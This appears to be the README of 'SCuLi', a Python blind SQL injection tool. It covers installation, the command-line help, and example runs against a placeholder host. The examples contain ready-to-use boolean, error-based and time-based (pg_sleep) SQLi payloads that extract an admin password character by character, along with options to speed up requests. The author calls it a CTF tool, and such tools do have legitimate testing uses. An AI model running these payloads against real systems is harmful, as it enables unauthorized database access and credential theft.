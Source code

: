 # SCuLi

A beautiful named tool to perform blind SQLi injection.

Are implemented in this version:
- Basic conditionnal responses *sync* and *async* mode.
- Error based *sync* and *async* mode.
- Time based *sync* and *async* mode.

Future developpements:
- SQLi by *OAST*.
- Interactive setup of *SCuLi*.

### Notes for users

You can modify the ALPHABET in `code/utils.py`, by default alphabet is `0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ _-&#$!%*~<>`.

Be careful when setting `--speed` option, `len(ALPHABET)*password_size` requests are sent in few seconds.

When using `--delay` and `--speed`, the delay is exectued between each password index exfiltration.


# Install

No requirements except a working `python3`.

```bash
git clone https://github.com/Baabbou/SCuLi.git
cd SCuLi
pip3 install -r requirements.txt
```

# Uses

**Help:**
```bash
$ python3 ./SCuLi.py --help
usage: SCuLi [-h] [-d DELAY] [--cookie COOKIE] [--proxy PROXY] [-i INPUT] [-s] URL type method payload

A blind SQL Injector.

positional arguments:
  URL
  type                  Can be: basic, error, time, xOAST
  method                Can be: GET or POST
  payload               Example: `' AND SUBSTR((SELECT <data> FROM <table> WHERE <filter>='<value>'),<index>,1)='<char>'--`

options:
  -h, --help            show this help message and exit
  -d DELAY, --delay DELAY
                        In seconds. Example: `0.5`
  --cookie COOKIE       Example: `PHPSESSID=JWT; csrf=MD5-STUFF`
  --proxy PROXY         Example: `http://127.0.0.1:8080`
  -i INPUT, --input INPUT
                        Example: `./example_input.json`
  -s, --speed           Request are now made as async requests

Don't hack good people pls.
```
<br>

**Simple Example:**
```bash
$ cat input.json
{
    "params": {
        "username": "admin<>",
        "password": "p4ssw0rd"
    }
}

$ python3 ./SCuLi.py "http://vulnerable.net/" basic GET "' AND SUBSTRING((SELECT passwd from users where uname='admin'),<index>,1)='<char>' AND 1=TO_CHAR(1/0)--" -i "input.json" -d 1.5
```
<br>

**Complex example:**
```bash
$ cat input.json
{
    "params": {},
    "cookie": "TrackingId=sqlihere<>; session=MD5-Stuff"
}

$ python3 ./SCuLi.py "https://vulnerable.net/login" time GET "abc'%3b SELECT CASE WHEN (SUBSTRING((SELECT passwd from users where uname='admin'),<index>,1)='<char>') THEN pg_sleep(3) ELSE pg_sleep(0) END --" -i input.json --proxy "http://127.0.0.1:8080" --speed
```
<br>

# Warning

Don't use it for bad things, it's just a CTF tool.
It's also still in developement so don't be rude with it :)

<br>


# Contact

Don't contact me.
